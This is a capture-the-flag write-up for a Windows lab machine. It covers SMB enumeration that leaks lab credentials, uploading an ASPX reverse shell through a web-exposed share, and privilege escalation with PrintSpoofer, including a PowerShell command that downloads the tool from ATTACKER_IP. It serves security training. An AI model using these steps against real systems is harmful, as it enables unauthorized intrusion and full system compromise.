| Difficulty |  |  IP Address   |  |
| :--------: |--|:------------: |--|
|   Medium   |  |  10.10.72.53  |  |

---

### [ User Flag ]

We first start off with a basic `nmap` scan (top 1000 ports) on the target machine.

```
sudo nmap -sC -sV -vv 10.10.72.53
```

**Results:**



From the results, we can see that the following ports are open: **80 (HTTP)**, **135 (RPC)**, **139 & 445 (Samba)** and **3389 (Microsoft Terminal Services)**

Let's first take a look at the HTTP website:


We have a basic Windows Server page.

I did some manual enumeration of the website but was unable to find anything of interest. I also tried running a `gobuster` directory scan on the website, but unfortunately Gobuster was unable to find any hidden directories.

Hitting a dead-end, I decided to move on to enumerating the Samba server.

To do so, we can use `smbclient` to list out the shares that are accessible on the server. This can be done with the `-L` tag:

```
smbclient -L 10.10.72.53
```



Nice! Looks like there are a few shares that we can potentially access. Since the **nt4wrksv** share seems the most interesting, let's try logging into it!

---

*Note: Alternatively, we can use nmap scripts to enumerate the Samba server. The command is:*

``` 
nmap --script smb-enum-shares.nse -p445 <host>
```

---

As anonymous login is enabled on the share, we are able to log into the nt4wrksv share without needing a password. 

The share contained a **passwords.txt** file:


This file contained user passwords that were base64-encoded. I went ahead and decoded them:



We get 2 sets of user credentials:

> Bob : !P@$$W0rD!123

> Bill : Juw4nnaM4n420696969!$$$

I tried to access the other Samba shares with these creds, but unfortunately they did not work.

I was stuck here for abit as I wasn't sure what these credentials could be used for. I decided to run a full `nmap` scan to see if I missed any open ports on the target machine.

```
sudo nmap -sC -sV -vv -p- -T4 --defeat-rst-ratelimit 10.10.72.53
```

*(The -T4 and the --defeat-rst-ratelimit tags are used to speed up the nmap scan greatly. We would not use these settings in a real-world application as it is very noisy. However, since we are scanning within a controlled CTF environment, we can go wild!)*

**Results:**



Oops, looks like I did miss some. Apart from the ports that we scanned earlier, there are now 3 new ports that were detected: **49663 (HTTP)**, **49667 (RPC)**, **49669 (RPC)**

What caught my attention was the HTTP server running on port 49663. Let's take a look:



This brings us to the same Windows Server page as before.

However, running a `gobuster` directory scan this time reveals a subdirectory called **/nt4wrksv**!

---

*Note: The /nt4wrksv entry is actually located at the very bottom of the dirbuster medium directory wordlist. Hence, I had to wait for Gobuster to completely go through the wordlist before it managed to detect this subdirectory!*

*This was a lesson on patience as I would have normally assumed that there were no more potential results once Gobuster had gone through about half of the wordlist, and would have stopped the scan. Fortunately, I let Gobuster finish the scan this time.*

---



As this directory has the same name as the Samba share that we accessed earlier, I assumed that it was actually bringing us to the share itself.

To test this, I tried visiting **/nt4wrksv/passwords.txt**:



Sure enough, the contents of the 'passwords.txt' file in the SMB share was displayed! 

This is great as that means we can potentially obtain remote code execution by uploading a file into the share and accessing it via this web directory. With this, we can open up a reverse shell and gain a foothold into the target machine.

Using [Wappalyzer](https://www.wappalyzer.com/) on the main webpage, I found out that the framework that was being used was **Microsoft ASP.NET**:



As such, we will have to upload an ASPX reverse shell. We'll use this [script](https://github.com/borjmz/aspx-reverse-shell).

Using `smbclient`, I uploaded the reverse shell onto the **nt4wrksv** share. This can be done with the `put` command:



Next, I opened up a netcat listener and opened the reverse shell by visiting **/nt4wrksv/shell.aspx** on the web server:



With that, the reverse shell was successfully opened and we're in!

There is a user called Bob on the machine. We can obtain the user flag from his desktop:



---

### [ Root Flag ]

Next, let's find a way to escalate our privileges. 

We first check out the privileges that are enabled on our current account. We do this with the `whoami /priv` command:



Interesting! Looks like we have the **SeImpersonatePrivilege** privilege enabled. With this privilege, we can use the [PrintSpoofer]((https://github.com/dievus/printspoofer)) tool to escalate our privileges.

---

*More information on how PrintSpoofer works can be found [here](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)*

---

We upload the PrintSpoofer tool onto our target machine by using Powershell to download it from a Python HTTP server that we have set up on our local machine:

```
powershell "Invoke-WebRequest -UseBasicParsing ATTACKER_IP/PrintSpoofer.exe -OutFile PrintSpoofer.exe"
```

Once the tool is downloaded, we can simply run it with:

```
.\PrintSpoofer.exe -i -c cmd 
```

This will open up a cmd prompt with root privileges:



And we have successfully escalated our privileges! With that, we can obtain the root flag located on the Administrator's desktop:



